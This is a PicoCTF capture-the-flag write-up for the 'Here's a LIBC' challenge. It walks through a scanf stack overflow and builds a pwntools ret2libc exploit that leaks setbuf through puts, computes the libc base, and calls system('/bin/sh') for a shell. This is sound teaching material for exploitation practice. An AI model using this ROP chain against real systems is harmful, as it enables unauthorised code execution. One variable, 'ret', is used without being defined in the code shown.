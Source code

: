 # Here's a LIBC
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="Challenge Description.png"
		alt="Challenge Description"
/>

## Setup

3 files are provided to us for the challenge and the address
to the server is also provided.

Lets download the files and try to run the binary

<img	src="Setup0.png"
		alt="Challenge Description"
/>

We get a crash
This occurs because our linker is a newer version than the libc provided

<img	src="Setup1.png"
		alt="Challenge Description"
/>

We can fix this using pwninit which will automatically take care of this

<img	src="Setup2.png"
		alt="Challenge Description"
/>

This fixed the problem

<img	src="Setup3.png"
		alt="Challenge Description"
/>


## Analysis

Lets open the binary in Ghidra and take a look at whats going on

<img	src="Analysis0.png"
		alt="Challenge Description"
/>

There is no input being taken in the main function but we see another function
Lets check it out

<img	src="Analysis1.png"
		alt="Challenge Description"
/>

This looks like what we are looking for  
I have retyped some variables so its easier to understand  
As we can see there is no bound checking on the scanf input  
We can easily overflow the buffer since scanf will take an input until it encounters a newline

<img	src="Analysis2.png"
		alt="Challenge Description"
/>

Sure enough, we get a segmentation fault and the program crashes  

Lets check the protections on the binaries

<img	src="Analysis3.png"
		alt="Challenge Description"
/>

The stack is not executable so we can't execute shellcode pushed onto it  
PIE is off for vuln meaning addresses won't change for the binary on each execution  
This means we can easily leak an address from libc and use it to return to libc


## Exploitation

Lets open the binary in GDB and find exactly where we overwrite RIP

<img	src="Exploitation0.png"
		alt="Challenge Description"
/>

<img	src="Exploitation1.png"
		alt="Challenge Description"
/>

Now we need to find some ROP Gadgets to leak the address of a function in libc  
We can use pwntools ROPgadget for this  
  
We will use the puts() function to print out an address in libc so we also need the address of puts@plt
We can leak the address of any function inside libc. I have chosen setbuf()

To print the address of setbuf() in libc we need to pass the address of setbuf@got to puts()  
For this we will need to find a ROP Gadget that will allow us to modify RDI

<img	src="Exploitation2.png"
		alt="Challenge Description"
/>

<img	src="Exploitation3.png"
		alt="Challenge Description"
/>

<img	src="Exploitation4.png"
		alt="Challenge Description"
/>

Now that we have found the relevant addresses we can leak the address of setbuf() inside libc

```py
import pwnlib.util.packing as pack
from pwn import log, process, remote

p = process("./vuln")  # Local binary

padding = b"A" * 136
pop_rdi = 0x400913  # ROP Gadget for popping rdi
setbuf_at_got = 0x601028  # Address of setbuf() in GOT
puts_at_plt = 0x400540  # Address of puts() in PLT
main = 0x400771  # Address of main for returning safely after leaking setbuf() address in libc

# ? Craft the payload to leak address of setbuf in libc
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of setbuf() in GOT as the first argument of puts()
payload += pack.p64(setbuf_at_got)  # This will be the first argument of puts()
payload += pack.p64(puts_at_plt)  # Call puts()
payload += pack.p64(main)  # Return to main() so the program doesnt crash

# ? Send the payload
p.sendline(payload)
p.recvline()  # Discard data we dont need
p.recvline()  # Discard data we dont need
leak = pack.u64(p.recvline().strip().ljust(8, b"\x00"))  # Format the address of setbuf() properly
log.info(f"Leaked setbuf Address -> {hex(leak)}")
```

<img	src="Exploitation5.png"
		alt="Challenge Description"
/>

Now that we have an address inside libc we can calculate the base address of libc itself  
First lets figure out the offset of setbuf() from the base address of libc

<img	src="Exploitation6.png"
		alt="Challenge Description"
/>

Now we can add this to our exploit

```py
setbuf_offset = 0x88540  # Static offset of setbuf() in libc
libc_base = leak - setbuf_offset  # Calculate base address of libc
log.info(f"libc Base Address -> {hex(libc_base)}")
```

To get a shell on the target system we will use the system() function which is also inside libc  
Lets find its address

<img	src="Exploitation7.png"
		alt="Challenge Description"
/>

```py
system_offset = 0x4F4E0  # Static offset of system() in libc
libc_system = libc_base + system_offset # Calculate the actual address of system() in libc
log.info(f"system Address -> {hex(libc_system)}")
```

We can pass "/bin/sh" to system() to get a shell  
As this string is already present inside libc we dont need to put it on the stack ourselves  
We can simply use the one already available to us  
Lets find its address 

<img	src="Exploitation8.png"
		alt="Challenge Description"
/>

```py
binsh_offset = 0x1B40FA  # Static offset of /bin/sh string in libc
libc_binsh = libc_base + binsh_offset
log.info(f"/bin/sh Address -> {hex(libc_binsh)}")
```

Now that we have all the relevant addresses we can finally craft our final payload  
Here is the remaining exploit

```py
# ? Craft the payload to call system("/bin/sh")
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of the string /bin/sh as the first argument of system()
payload += pack.p64(libc_binsh)  # This will be the first argument of system()
payload += pack.p64(ret)  # Align the stack to 16 bytes otherwise system() will crash
payload += pack.p64(libc_system)  # Call system()

# ? Send the payload
p.sendline(payload)

# ? Start an interactive session
p.interactive()
```

Notice we added another ROP Gadget (ret). This is to align the stack for the call to system()  
If the stack isn't aligned then we will get a segmentation fault and the program will crash  
Lets run the exploit script against the target server now

<img	src="Exploitation9.png"
		alt="Challenge Description"
/>

Nice. It works  
Now we can grab the flag

<img	src="Exploitation10.png"
		alt="Challenge Description"
/>